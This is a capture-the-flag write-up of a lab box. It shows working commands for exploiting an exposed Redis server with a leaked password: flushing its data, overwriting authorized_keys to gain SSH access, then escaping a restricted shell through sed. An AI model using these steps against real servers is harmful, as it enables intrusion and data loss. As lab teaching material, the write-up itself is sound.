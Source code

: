 # Writable (user)


Running nmap with `-sV -p1-65535` on the machine returns the following:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-10-26 01:03 BST
Nmap scan report for 10.10.2.6
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
6379/tcp open  redis   Redis key-value store
8000/tcp open  http    WSGIServer 0.1 (Python 2.7.15rc1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.25 seconds
```

Examining the service on port 8000 shows the program `glances`[1] running. This
shows a list of processes, but not in enough detail. Looking at the docs we can
see it has a way of showing all the options, which is the `/` command.

From this, we can see that the redis is being ran with:
```
su tom -c redis-server --bind 0.0.0.0 --requirepass redis_is_really_secure
```

So we can now access redis. 

```
10.10.2.6:6379> auth redis_is_really_secure
OK
10.10.2.6:6379> keys *
(empty list or set)
```

So we can see there is no keys, so we have to think of another way to exploit.

There is an article [2] by the author of Redis, showing you how to overwrite the
file authorized_keys to allow login via ssh.

A session exploiting this:

```
$ ssh-keygen
Generating public/private rsa key pair.                                       
Enter file in which to save the key (/home/a/.ssh/id_rsa): /tmp/example/id_rsa
Enter passphrase (empty for no passphrase):                                   
Enter same passphrase again:                                                  
Your identification has been saved in /tmp/example/id_rsa.                    
Your public key has been saved in /tmp/example/id_rsa.pub.                    
The key fingerprint is:                                                       
SHA256:QmcDfrvzlD5pXD3S9/a/imlPBF6ipk5bowP0SdrPodk a@b                   
The key's randomart image is:                                                 
+---[RSA 2048]----+                                                           
|      .          |                                                           
|     . .         |                                                           
|      o =  o .   |
|     o = oo +    |
|    . * So . +   |
|     o =oo .+ + .|
|      .oO++o o o.|
|      o++E*.+   o|
|       +..++.o.o*|
+----[SHA256]-----+
$ cat /tmp/example/id_rsa.pub | xsel --clipboard
$ redis-cli -h 10.10.2.6
10.10.2.6:6379> auth redis_is_really_secure
OK
10.10.2.6:6379> flushall
OK
10.10.2.6:6379> config set dir "/home/tom/.ssh/"
OK
10.10.2.6:6379> config set dbfilename "authorized_keys"
OK
10.10.2.6:6379> set x "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCafYcuD2EjCyIuAvH91VAcqvxpWiEhYXO0/OXXKNBoFTF1texYXWaQPAReMOm8SsPDEy9rbN27QCMbKHDqQWndf2plQVEAWd3T/2XvMiSqzFN9xyGInoNdee2aHJXtll2IR2EfmmMOfuRt1Bl7YWgLdMht6FjmvccNytPl3pKEd/A+vBW1E7+RY4Y+hVfjQ8QMet0HLoCwunBa7x/EZf7SioYLrrA8jnqUBJDJnGJqrBZ9NzLiGzcbMVS8oUS5NP3iyZ9BP3GBATKzQOF1CLocYXsy+JCBd/igy2TFuWYfh//cRzDglqrYqDbLraBdTUhEAsvZVe+Gtd+6ZP9vfjvh a@b\n\n"
10.10.2.6:6379> save
10.10.2.6:6379>
simeiz :: /tmp/example » ssh tom@10.10.2.6 -i /tmp/example/id_rsa
Last login: Tue Oct 23 17:36:54 2018 from 10.10.254.1
tom@9f10564a2db5:~$ #w00tw00t
```

Now that we can login, we see that we are given a restricted shell.

When we look into what binaries we can run, we can see that we can use `ls` and
`sed`.

GTFOBins lists a way of abusing sed, but this needs to be modified to use the
full path of our shell as it isn't in our `PATH`.

```
tom@9f10564a2db5:~$ sed -n '1e exec /bin/sh 1>&0' /etc/hosts
$ /bin/cat user.txt
CTF{wait_ssh_can_still_read_that}
```

So we've got our flag.

## References

* [1] https://glances.readthedocs.io/en/latest/
* [2] http://antirez.com/news/96
* [3] https://gtfobins.github.io/gtfobins/sed/
